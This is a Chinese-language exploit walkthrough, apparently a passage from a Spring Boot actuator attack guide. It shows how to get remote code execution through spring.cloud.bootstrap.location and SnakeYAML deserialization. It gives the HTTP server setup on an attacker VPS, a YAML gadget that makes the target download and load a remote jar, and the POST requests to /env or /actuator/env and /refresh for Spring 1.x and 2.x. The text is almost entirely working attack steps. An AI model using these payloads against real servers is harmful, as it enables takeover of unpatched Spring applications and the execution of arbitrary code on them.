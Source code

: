 #### 利用方法：

##### 步骤一： 托管 yml 和 jar 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```php
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在网站根目录下放置后缀为 `yml` 的文件 `example.yml`，内容如下：

```php
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]
```

在网站根目录下放置后缀为 `jar` 的文件 `example.jar`，内容是要执行的代码，代码编写及编译方式参考 [yaml-payload](https://github.com/artsploit/yaml-payload)。

##### 步骤二： 设置 spring.cloud.bootstrap.location 属性

spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/example.yml
```

spring 2.x

```php
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}
```

##### 步骤三： 刷新配置

spring 1.x

```php
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```php
POST /actuator/refresh
Content-Type: application/json
```
